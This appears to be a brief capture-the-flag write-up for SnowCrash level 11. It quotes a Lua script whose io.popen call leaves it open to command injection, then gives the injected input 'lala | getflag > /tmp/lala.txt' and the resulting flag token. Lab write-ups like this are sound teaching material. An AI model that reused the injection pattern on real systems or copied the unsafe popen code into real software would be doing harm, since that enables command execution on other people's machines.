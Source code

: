 # SnowCrash Level 11

## Introduction
This one was quite simple. We received a .lua file that we extracted to read its contents. After a little bit of time, we noticed that the following code snippet was not very secure:
```
prog = io.popen("echo "..pass.." | sha1sum", "r")
data = prog:read("*all")
```
## Exploitation
Realizing the potential vulnerability, we attempted to inject some commands here: lala | getflag > /tmp/lala.txt.

This simple injection provided us with the token: fa6v5ateaw21peobuub8ipe6s.

## Obtaining the Token
After successfully injecting the command and retrieving the token, we executed getflag:
```
flag11@SnowCrash:~$ getflag 
Check flag. Here is your token: fa6v5ateaw21peobuub8ipe6s
```
